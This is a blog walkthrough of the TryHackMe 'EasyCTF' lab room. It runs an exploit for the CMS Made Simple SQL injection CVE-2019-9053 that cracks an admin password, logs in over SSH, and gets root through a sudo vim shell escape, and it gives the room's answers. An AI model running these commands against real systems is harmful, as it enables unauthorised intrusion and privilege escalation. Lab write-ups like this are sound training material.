 ```yaml
---
title: Write-up — EasyCTF
date: 2025-06-29 10:00:00 AM
categories: [Write-up, Try Hack Me]
tags: [Try Hack Me, Write-up, ctf, Easy]
image: 'assets/img/articles/EasyCTF.png'
description: The "EasyCTF" room on TryHackMe is designed as a beginner-friendly Capture The Flag (CTF) challenge. It is an excellent starting point for individuals who are new to CTFs and penetration testing.
---
```


> Walkthrough of room EasyCTF from TryHackMe :
> [https://tryhackme.com/room/easyctf](https://tryhackme.com/room/easyctf)

The room covers fundamental skills necessary for CTFs, including **scanning** and **enumeration**, research, **exploitation**, and **privilege escalation**. This makes it a great introduction to the basics of cybersecurity and ethical hacking.

---

### How many services are running under port 1000?

2 services running, **ftp** and **http**.

### What is running on the higher port?

SSH on port 2222.

### What's the CVE you're using against the application?

CMS Made simple version 2.2.8 -> **CVE-2019-9053**

### To what kind of vulnerability is the application vulnerable?

SQLi (https://www.exploit-db.com/exploits/46635)

### What's the password?

```bash
./exploit.py -u http://$TARGET/simple/ -c -w /usr/share/wordlists/rockyou.txt

[+] Salt found: 1dac0d92e9fa6bb2
[+] Username found: *****
[+] Email found: admin@admin.com
[+] Password hash found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: ******
```

`-c` for enabling cracking.

### Where can you login with the details obtained?

Through `ssh` on port 2222.

### What's the user flag?

The user flag can be retrieve by doing:

```bash
cat user.txt
```

### Is there any other user in the home directory? What's its name?

```bash
ls ..
mitch  sunbath
```

The other user is **`sunbath`**.

### What can you leverage to spawn a privileged shell?

```bash
sudo -l

User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

By abusing **vim** privilege misconfiguration.

### What's the root flag?

```bash
sudo vim -c ':!/bin/zsh'

# Hit Enter

:r!cat /root/root.txt
```


All flags down, mission passed.

![](https://media1.tenor.com/m/lQBJJmatxPYAAAAd/mission-accomplished-penguins.gif)

Be proud of what you’ve accomplished.

See you soon!

> “You can’t have privacy without good security. Anyone saying otherwise is delusional.”

> ― Dr. Larry Ponemon, Founder, Ponemon Institute

## Comments
<script src="https://giscus.app/client.js"
        data-repo="Deomorphisme/Deomorphisme.github.io"
        data-repo-id="R_kgDONEIr-Q"
        data-category="General"
        data-category-id="DIC_kwDONEIr-c4CjomU"
        data-mapping="pathname"
        data-strict="0"
        data-reactions-enabled="1"
        data-emit-metadata="0"
        data-input-position="top"
        data-theme="preferred_color_scheme"
        data-lang="en"
        data-loading="lazy"
        crossorigin="anonymous"
        async>
</script>
